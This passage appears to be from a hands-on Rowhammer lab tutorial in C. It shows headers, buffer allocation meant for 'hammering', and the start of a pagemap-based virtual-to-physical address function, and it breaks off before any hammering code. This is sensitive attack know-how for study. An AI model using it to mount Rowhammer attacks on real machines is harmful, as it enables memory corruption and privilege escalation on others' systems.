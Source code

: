 ```
//required C libraries
#include <stdio.h>
#include <stdint.h>			// uint64_t
#include <stdlib.h>			// For malloc
#include <string.h>			// For memset
#include <time.h>			// For sidechannel attacks
#include <fcntl.h>			// For O_RDONLY in get_physical_addr fn 
#include <unistd.h>			// For pread in get_physical_addr fn, for usleep
#include <sys/mman.h>
#include <stdbool.h>		// For bool
#include <sys/stat.h>

//some definitions to avoid magic numbers
//they will need to be modified if running on 64bit systems
#define PAGE_COUNT 256 * (uint64_t)256	// ARG2 is the buffer size in MB
#define PAGE_SIZE 4096
#define PEAKS PAGE_COUNT/256*2
#define ROUNDS2 10000
#define THRESH_OUTLIER 700	// Adjust after looking at outliers in t2.txt
```

### Step 1: Allocating memory at the userspace. Understanding virtual to physical address mapping. <span style="color:orange">[30 mins]</span>
- Memory allocation.

Simple step of allocating some memory space in userspace which will be used to attempt hammering.
The below method is one way of allocating the said space.


```
//struct to store metadata along with memory addresses
struct continuous_memory{
	uint8_t ** memory_addresses;
	int length;
	int start;
	int end;
};

//actual memory allocation - this search_buffer will be the space used to 'play around' in
uint8_t * search_buffer = mmap(NULL, PAGE_COUNT * PAGE_SIZE, PROT_READ | PROT_WRITE, MAP_POPULATE | MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);

struct continuous_memory * continuous_memory = malloc(sizeof(struct continuous_memory));

```
- Understand the virtual to physical address mapping.
```
// a 'universal' function to calculate phys-virt address conversion, used in many rowhammer libraries

static uint64_t get_physical_addr(uint64_t virtual_addr)
{
	static int g_pagemap_fd = -1;
	uint64_t value;

	// open the pagemap
	if(g_pagemap_fd == -1) {
	  g_pagemap_fd = open("/proc/self/pagemap", O_RDONLY);
	}
	if(g_pagemap_fd == -1) return 0;

	// read physical address
	off_t offset = (virtual_addr / 4096) * sizeof(value);
	int got = pread(g_pagemap_fd, &value, sizeof(value), offset);
```